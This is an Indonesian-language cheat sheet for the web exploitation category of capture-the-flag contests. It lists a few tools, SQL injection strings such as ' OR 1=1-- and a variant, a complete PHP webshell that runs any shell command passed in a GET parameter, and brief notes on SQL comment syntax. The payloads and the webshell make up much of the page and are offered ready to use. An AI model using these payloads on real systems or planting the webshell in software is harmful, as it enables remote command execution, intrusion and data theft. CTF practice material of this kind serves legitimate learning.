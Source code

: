 ```yaml
---
title: Semua Tentang CTF - Kategori Web Exploitation
published: true
---
```

# Tools Yang Umum Digunakan
Kategori Web Exploitation:
1. [JWT (JSON Web Token)](https://token.dev/)
2. [Deobfuscate Kode JS](https://deobfuscate.io/)

# Kode Penting
SQL Injection
```sql
' OR 1=1--
```

Modified SQL Injection (by me)
```sql
' OR 1=1 OR '1'='1
```
PHP Webshell (Execute Linux Command) dari [joswr1ght](gist.github.com/joswr1ght).

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

# Catatan Tambahan Untuk Belajar
## Comment Pada SQL
```sql
SELECT * FROM Customers -- WHERE City='Berlin';
```
```sql
/*Select all the columns
of all the records
in the Customers table:*/
SELECT * FROM Customers;
```
```sql
SELECT CustomerName, /*City,*/ Country FROM Customers;
```